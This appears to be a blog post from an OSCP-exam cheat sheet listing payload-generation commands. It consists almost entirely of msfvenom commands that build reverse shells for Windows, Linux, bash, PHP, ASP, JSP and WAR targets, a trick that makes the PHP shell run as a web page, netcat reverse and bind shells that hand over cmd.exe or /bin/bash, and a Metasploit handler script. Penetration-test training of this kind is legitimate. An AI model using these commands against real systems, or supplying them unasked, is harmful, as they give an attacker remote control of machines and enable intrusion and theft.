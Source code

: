 ```yaml
---
title: Payloads
author: linatl
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### List payload options
```
> msfvenom -l payloads | grep php
> msfvenom -l archs
> msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
> msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```

###### .elf reverse shell
```
x86
> msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
> msfvenom -p linux/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
```

###### .sh reverse shell
```
> msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```

###### .exe reverse shell
```
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### .php reverse shell
```
> msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php

Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage.
> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

###### Some more reverse shells
```
.asp
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Netcat reverse shell
```
Set up a listener
 > nc -nvlp 443

Connect to the listener (Windows)
 > nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
 > nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 > nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 > nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
> nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
